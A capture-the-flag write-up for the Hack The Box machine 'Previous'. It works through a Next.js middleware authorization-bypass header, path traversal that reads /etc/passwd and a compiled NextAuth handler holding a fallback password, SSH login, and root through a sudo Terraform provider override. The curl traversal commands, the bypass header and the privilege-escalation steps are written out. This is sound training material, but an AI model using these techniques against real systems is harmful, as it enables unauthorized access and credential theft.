






# Previous

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-badge wu-diff wu-diff--medium">Medium</span>
<span class="wu-tags">
<span class="wu-tag">Next.js</span>
<span class="wu-tag">Path traversal</span>
<span class="wu-tag">Terraform</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    The automated bypass test reported failure, but its request header was still useful. Applying it to endpoint discovery exposed a file read and the server-side authentication handler. The root step depended on Terraform's provider loading rather than the project's normal resource behavior.

## Attack path

1. Use the middleware header manually after the automated bypass check reports failure.
2. Traverse the download endpoint to recover the compiled authentication handler.
3. Use Jeremy's constrained Terraform sudo command with a provider override.

[HTB machine](https://app.hackthebox.com/machines/701) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/701) (checked November 17, 2026).

## Setup 

```fish
set -gx IP 10.10.11.83
# Optional: set -x URL http://$IP
```

### /etc/hosts
```bash
# Example:
# echo "$IP    Previous" | sudo tee -a /etc/hosts
```

---
## Enumeration
### Nmap Results
```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://previous.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
## Service Enumeration
### Port 80

```bash
echo "$IP    previous.htb" | sudo tee -a /etc/hosts 
```

Notes:

* Notice under Contact we see the following: `jeremy@previous.htb`
* The application is pretty empty, only a single login page is found by initial enumeration by clicking either button on the landing page.
	* No luck with brute force attack with user `jeremy`
* Wappalyzer shows that Next.js 15.2.2 is running which is vulnerable to CVE-2025-29927

---
## Foothold (Initial Access)

We can find an authentication bypass for Next.js 15.2.2 below:
[Reference](https://github.com/UNICORDev/exploit-CVE-2025-29927?tab=readme-ov-file)

Copy the python exploit onto the attacking machine, then setup a venv to start the script.

```bash
python3 exploit.py -u http://previous.htb/
...
UNICORD: Exploit for CVE-2025-29927 (Next.js) - Authorization Bypass
TARGETS: http://previous.htb/
PREPARE: Target is running Next.js!
LOADING: Detecting Next.js version with Selenium...
VERSION: Target is running Next.js version 15.2.2 (Vulnerable)

PAYLOAD: {'X-Middleware-Subrequest': 'middleware:middleware:middleware:middleware:middleware'}
EXPLOIT: Payload sent!
FAILURE: Authorization bypass header failed.

PAYLOAD: {'X-Middleware-Subrequest': 'src/middleware:src/middleware:src/middleware:src/middleware:src/middleware'}                                                                                              
EXPLOIT: Payload sent!
FAILURE: Authorization bypass header failed.
ERRORED: Exploitation failed! Target may not be vulnerable.
```

While we see that the payload failed, we do get an important bit of information: the required header:
`X-Middleware-Subrequest': 'middleware:middleware:middleware:middleware:middleware`

Using this header, run a dirsearch to uncover any potentially interesting directories:
```bash
dirsearch -u http://previous.htb/api -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware'
```

Reviewing our output, we see a potentially interesting directory, `download`

<figure class="wu-evidence" markdown>

<figcaption>Header-assisted endpoint discovery finds the download route.</figcaption>
</figure>

Using cURL, we can validate that this endpoint reflects back an error telling us `file not found`
```bash
curl 'http://previous.htb/api/download?example=aaa' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware' -v
```

<figure class="wu-evidence" markdown>

<figcaption>The download endpoint reports that the requested file was not found.</figcaption>
</figure>

Use directory traversal to reveal `/etc/passwd` to confirm users on the target:
```bash
curl 'http://previous.htb/api/download?example=../../../../etc/passwd' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware' -v
```

<figure class="wu-evidence" markdown>

<figcaption>Path traversal returns the target&#x27;s passwd file.</figcaption>
</figure>

### Extracting Credentials from Next.js Build Artifacts (NextAuth)

After identifying that the application exposed an arbitrary file-read primitive through the download functionality (path traversal), the next goal was to locate server-side code or build artifacts that could reveal authentication logic or secrets.

#### Enumerate routes via Next.js routing manifest

Because this target is a Next.js application, I attempted to read common build artifacts under the `.next/` directory. One of the most useful files is the routing manifest:

`.next/routes-manifest.json`

```bash
curl 'http://previous.htb/api/download?example=../../../../app/.next/routes-manifest.json' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware' -s | jq
```

> This file is generated during the Next.js build process and contains the application’s route definitions (static and dynamic). Reading it allowed me to quickly identify _real_ endpoints without guessing.

In the output, the key finding was the dynamic route:

`/api/auth/[...nextauth]` 

<figure class="wu-evidence" markdown>

<figcaption>The Next.js routes manifest identifies the NextAuth handler.</figcaption>
</figure>

> This is the canonical NextAuth catch-all endpoint, strongly suggesting the application uses NextAuth for authentication.

#### Infer the on-disk location of the compiled API handler

Next.js “Pages Router” API routes are compiled into server-side build artifacts under:

 `.next/server/pages/api/`

Because the manifest confirmed the existence of `/api/auth/[...nextauth]`, it follows Next.js’ standard build output conventions that the corresponding compiled handler would exist at:

`.next/server/pages/api/auth/[...nextauth].js`

> (When requesting it through the vulnerable download endpoint, the square brackets must be URL-encoded.)

```bash
curl 'http://previous.htb/api/download?example=../../../../app/.next/server/pages/api/auth/%5B...nextauth%5D.js' -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
```
#### Read the compiled NextAuth handler and review the authentication logic

After retrieving the compiled route file, I inspected it for NextAuth configuration, provider definitions, and any embedded secrets.

The file contained a Credentials provider configuration, including the full `authorize` logic. Two critical details were visible:

- A hard-coded privileged username (`jeremy`)
- A password check against an environment variable with a fallback default value:
- `process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes"`

<figure class="wu-evidence" markdown>

<figcaption>The compiled authentication handler contains a fallback administrator password.</figcaption>
</figure>

### Gaining Initial Access
With our newly acquired credentials, we can SSH onto the target:

```bash
ssh jeremy@$IP
Password: MyNameIsJeremyAndILovePancakes
```

---
## Privilege Escalation — `sudo` Terraform Provider Hijack

### Enumeration

The first escalation vector showed up in `sudo -l`. The `jeremy` user is permitted to run Terraform as root, constrained to a specific working directory and subcommand:

```bash
jeremy@previous:~$ sudo -l
[sudo] password for jeremy: 
Matching Defaults entries for jeremy on previous:
    !env_reset, env_delete+=PATH, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jeremy may run the following commands on previous:
    (root) /usr/bin/terraform -chdir\=/opt/examples apply
```

### Terraform Project Review

Because Terraform was forced to run in `/opt/examples`, I inspected the project configuration to understand what it would load and execute. The `.tf` files revealed a custom provider source:

```bash
jeremy@previous:~$ cat /opt/examples/*.tf
terraform {
  required_providers {
    examples = {
      source = "previous.htb/terraform/examples"
    }
  }
}

variable "source_path" {
  type = string
  default = "/root/examples/hello-world.ts"

  validation {
    condition = strcontains(var.source_path, "/root/examples/") && !strcontains(var.source_path, "..")
    error_message = "The source_path must contain '/root/examples/'."
  }
}

provider "examples" {}

resource "examples_example" "example" {
  source_path = var.source_path
}

output "destination_path" {
  value = examples_example.example.destination_path
}
```

Key observation: Terraform was configured to use a provider named `examples` with source `previous.htb/terraform/examples`. Terraform providers are local executables that Terraform loads at runtime. If I could influence where Terraform resolves that provider binary, I could potentially run code as root when `terraform apply` executes under sudo.

### Exploitation: Provider Resolution Override

Terraform supports a CLI configuration mechanism that can override provider installation paths (commonly used for provider development/testing). By pointing Terraform at an attacker-controlled provider path, the root-run Terraform invocation will attempt to load that provider executable from the overridden location.

My saved notes link the provider-override setup below, but do not retain the complete local provider file or CLI configuration. The following transcript does retain Terraform's selected provider path, its root execution context, and the resulting shell. I am keeping that evidence boundary explicit:
[Reference](https://github.com/dollarboysushil/Privilege-Escalation-PoC-Terraform-sudo-Exploit/blob/main/README.md)

### Execution Result and Privilege Verification

When running `terraform apply`, Terraform confirmed that provider development overrides were in effect and attempted to execute the provider from my controlled directory:

```bash
jeremy@previous:~$ sudo /usr/bin/terraform -chdir=/opt/examples apply
╷
│ Warning: Provider development overrides are in effect
│ 
│ The following provider development overrides are set in the CLI configuration:
│  - previous.htb/terraform/examples in /tmp
│ 
│ The behavior may therefore not match any released version of the provider and applying changes may cause
│ the state to become incompatible with published releases.
╵
╷
│ Error: Failed to load plugin schemas
│ 
│ Error while loading schemas for plugin components: Failed to obtain provider schema: Could not load the
│ schema for provider previous.htb/terraform/examples: failed to instantiate provider
│ "previous.htb/terraform/examples" to obtain schema: Unrecognized remote plugin message: 
│ Failed to read any lines from plugin's stdout
│ ...
│ Additional notes about plugin:
│   Path: /tmp/terraform-provider-examples
│   Mode: -rwxrwxr-x
│   Owner: 1000 [jeremy] (current: 0 [root])
│   Group: 1000 [jeremy] (current: 0 [root])
│ ..
╵
```

Even though Terraform errored due to the provider not implementing the expected protocol, the provider executable itself was still invoked under root context, which was sufficient to elevate privileges. I then spawned a privileged shell and verified root access:

```bash
jeremy@previous:~$ /bin/bash -p
bash-5.1# whoami
root
```

<figure class="wu-evidence" markdown>

<figcaption>The privileged Bash session confirms a root identity.</figcaption>
</figure>

### Why This Worked

- `sudo` allowed root execution of `terraform apply`.
- Terraform providers are executables loaded by Terraform at runtime.
- Terraform supports provider installation overrides via CLI configuration.
- By redirecting provider resolution to an attacker-controlled path, Terraform executed attacker-supplied code as root.

## Lessons learned

An automated failure message did not invalidate the useful request header. In the root step, Terraform's protocol error happened after the attacker-controlled provider had already executed with elevated privileges.
